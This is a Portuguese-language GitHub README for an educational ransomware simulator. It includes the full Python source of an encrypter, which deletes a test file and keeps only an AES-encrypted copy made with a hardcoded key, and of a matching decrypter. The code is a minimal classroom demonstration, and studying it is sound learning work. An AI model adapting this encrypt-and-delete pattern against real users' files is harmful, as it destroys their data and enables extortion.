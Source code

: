 🔒 Simulador de Ransomware em Python
Este projeto é uma simulação de ransomware desenvolvida em Python no Kali Linux. Ele criptografa e descriptografa arquivos usando o algoritmo AES (Advanced Encryption Standard) por meio da biblioteca pyaes.
⚠️ Atenção: Este projeto é apenas para fins educacionais e não deve ser utilizado para atividades maliciosas. O uso indevido pode resultar em consequências legais.

📌 Origem do Projeto
Este projeto foi um fork de um repositório do GitHub. Ele foi estudado para fins educacionais sobre Cibersegurança.

📌 Como funciona
O script encrypter.py criptografa um arquivo chamado teste.txt e cria um novo arquivo criptografado com a extensão .ransomwaretroll.
O script decrypter.py descriptografa o arquivo e restaura o seu conteúdo original.

🚀 Tecnologias Utilizadas
Python 3
Kali Linux
**Biblioteca **pyaes

📥 Instalação e Execução
🔹 1. Clonar o repositório
 git clone https://github.com/cassiano-dio/cibersecurity-desafio-ransomware
 cd simulador-ransomware

🔹 2. Instalar dependências
Caso não tenha a biblioteca pyaes, instale com:
pip install pyaes

🔹 3. Criar um arquivo para teste
Antes de rodar o script, crie um arquivo de teste:
echo "Alo Brasil" > teste.txt

🔹 4. Executar o Encrypter
python encrypter.py
Isso removerá o arquivo teste.txt e criará teste.txt.ransomwaretroll.

🔹 5. Executar o Decrypter
python decrypter.py
Isso removerá o arquivo criptografado e restaurará teste.txt.

📝 Códigos
Encrypter (encrypter.py)

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo original
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Decrypter (decrypter.py)
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
